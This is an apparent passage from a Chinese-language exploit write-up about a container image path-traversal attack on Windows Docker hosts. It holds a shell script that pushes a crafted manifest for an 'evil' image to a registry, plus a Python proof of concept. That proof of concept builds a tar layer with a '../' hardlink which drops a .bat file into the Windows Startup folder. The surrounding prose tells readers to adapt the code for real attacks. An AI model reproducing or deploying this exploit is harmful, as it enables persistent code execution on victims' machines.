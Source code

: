 ```shell

config_digest=$(upload "${tmpdir}/config.json")
config_size=$(stat --format='%s' "${tmpdir}/config.json")

cat >"${tmpdir}/manifest.json" <<EOF
{
   "schemaVersion": 2,
   "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
   "config": {
      "mediaType": "application/vnd.docker.container.image.v1+json",
      "size": ${config_size},
      "digest": "${config_digest}"
   },
   "layers": [
      {
         "mediaType": "application/vnd.docker.image.rootfs.diff.tar.gzip",
         "size": ${layer_size},
         "digest": "${layer_digest}"
      }
   ]
}
EOF

curl -v -XPUT --data "@${tmpdir}/manifest.json" \
  --header 'Content-Type: application/vnd.docker.distribution.manifest.v2+json' \
  "${registry}/v2/evil/image/manifests/latest"
```



其中，真正的 `PoC` 是上面的 `Python` 代码，也就是下面这个，进行攻击时，根据实际情况修改代码即可（PS：注意把中文注释删了）：

```python
import sys
import time
import tarfile
import tempfile
import struct

# 修改点1：这里为写入的恶意文件的路径以及文件名
startupfile = \
  "ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/evil.bat"

with tempfile.NamedTemporaryFile() as script, \
     tarfile.open(sys.argv[1], "w", format=tarfile.PAX_FORMAT) as tar:
  # 修改点2：这里为写入的恶意文件的内容
  script.write("echo Hello World {}\r\npause\r\n".format(time.time()).encode("ascii"))
  script.flush()

  tar.add(script.name, arcname="Files/script.bat")

  # Hardlink for startup script
  info = tarfile.TarInfo("Files\\../../../../../../../../" + startupfile)
  info.type = tarfile.LNKTYPE
  info.linkname = "Files\\script.bat"
  tar.addfile(info)
```
